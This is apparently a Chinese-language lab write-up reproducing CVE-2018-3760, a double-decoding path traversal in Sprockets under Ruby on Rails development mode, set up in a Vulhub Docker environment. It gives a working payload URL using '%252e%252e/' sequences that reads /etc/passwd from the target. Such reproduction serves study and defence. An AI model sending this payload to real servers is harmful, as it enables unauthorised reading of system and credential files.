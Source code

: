 # Ruby On Rails 路径穿越漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

Vulhub启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker-compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

![image-20220228191402366](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281914644.png)

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中。

![image-20220228191452991](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281914413.png)

我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220228191510918](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281915174.png)

